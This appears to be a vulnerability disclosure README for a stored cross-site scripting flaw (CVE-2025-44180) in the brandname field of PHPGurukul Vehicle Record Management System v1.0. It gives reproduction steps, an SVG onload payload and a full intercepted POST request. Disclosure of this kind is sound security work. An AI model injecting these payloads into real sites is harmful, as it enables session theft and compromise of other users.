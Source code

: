 # Vehicle-Record-Management-System
XSS vulnerability to Vehicle Record Management System
# CVE-2025-44180-Phpgurukul-Vehicle-Record-Management-System-v1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: nscerol
# Vendor Homepage
+ https://phpgurukul.com/vehicle-record-system-using-php-and-mysql/
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=19587
# Overview
+ PHPGurukul Vehicle Record Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through brandname parameter in the /edit-brand.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2025-44180
+ Affected Version: PHPGurukul Vehicle Record Management System V1.0
+ Vulnerable File: edit-brand.php
+ Parameters: brandname
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-44180
+ https://nvd.nist.gov/vuln/detail/CVE-2025-44180
# Description
+ The parameters 'brandname' in the edit-brand.php file of PHPGurukul Vehicle Record Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to 'Brand'-->'Manage Brand' button to update
+ Click 'Edit' to update any of the data
+ Intercept the POST request to edit-brand.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `brandname` parameter
```
POST /vehiclerecordsystem/admin/edit-brand.php?bid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://localhost
Connection: keep-alive
Referer: https://localhost/vehiclerecordsystem/admin/edit-brand.php?bid=1
Cookie: PHPSESSID=hvah0765vcec9jtep84vlv5eeh
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

brandname=Toyota"><svg/onload=alert(document.cookie)>%2b%27&submit=+Submit
```
+ Go to the Brand-->Manage Brand--> Edit page and trigger the XSS -->
+ ![xsserror](https://github.com/user-attachments/assets/0841adcc-5e0b-4e7e-b12f-086c545998a9)

